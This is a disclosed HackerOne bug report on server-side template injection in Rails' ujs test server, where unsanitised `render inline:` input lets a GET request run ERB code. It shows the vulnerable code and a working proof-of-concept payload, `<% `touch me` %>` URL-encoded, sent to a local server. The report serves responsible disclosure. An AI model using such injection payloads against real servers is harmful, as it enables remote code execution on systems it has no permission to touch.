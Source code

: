 # Server-side template injection at ujs test server

## Report Details
- **Report ID**: 942103
- **URL**: https://hackerone.com/reports/942103
- **State**: Closed
- **Severity**: none
- **Submitted**: 2020-07-25T05:56:19.394Z
- **Disclosed**: 2021-02-16T13:22:47.812Z

## Reporter
- **Username**: ooooooo_q
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rails

## Vulnerability Information
I have found in the server code for testing ujs in Rails that template injection is possible and that leads to rce.


### code


https://github.com/rails/rails/blob/v6.0.3.2/actionview/test/ujs/server.rb

```ruby
module UJS
  class Server < Rails::Application
    routes.append do
      get "/rails-ujs.js" => Blade::Assets.environment
      get "/" => "tests#index"
      match "/echo" => "tests#echo", via: :all
      get "/error" => proc { |env| [403, {}, []] }
    end

...

class TestsController < ActionController::Base
  helper TestsHelper
  layout "application"

  def index
    render :index
  end

  def echo
    data = { params: params.to_unsafe_h }.update(request.env)

    if params[:content_type] && params[:content]
      render inline: params[:content], content_type: params[:content_type]    
```

`render inline: params[:content]` receives the request value directly and can be executed as ERB code as it is, so it becomes template injection. (https://guides.rubyonrails.org/layouts_and_rendering.)html#using-render-with-inline


### PoC

Prepare Server.

```
❯ git clone https://github.com/rails/rails.git
❯ cd rails/actionview

❯ git rev-parse HEAD
0fb6993f48bb01a960316027675f3f496baa2088

❯ bundle install
...

❯ rake ujs:server
Puma starting in single mode...
* Version 4.3.1 (ruby 2.7.1-p83), codename: Mysterious Traveller
* Min threads: 0, max threads: 16
* Environment: development
* Listening on tcp://127.0.0.1:4567
* Listening on tcp://[::1]:4567
Use Ctrl-C to stop
```

Prepare Attack code.

```js
encodeURIComponent("<% `touch me` %>")
> "%3C%25%20%60touch%20me%60%20%25%3E"
```

Open url

```
http://localhost:4567/echo?content_type=test&content=%3C%25%20%60touch%20me%60%20%25%3E
```

Access url with browser or curl

```
❯ ls me
me
```

## Impact

Since the attack code can be sent as a GET request, an attacker can attack a device running a test server for ujs from the external network by inducing a trap site.
However, since this is a server used for testing rails development, it does not seem to have a significant impact on users.

## Attachments
No attachments
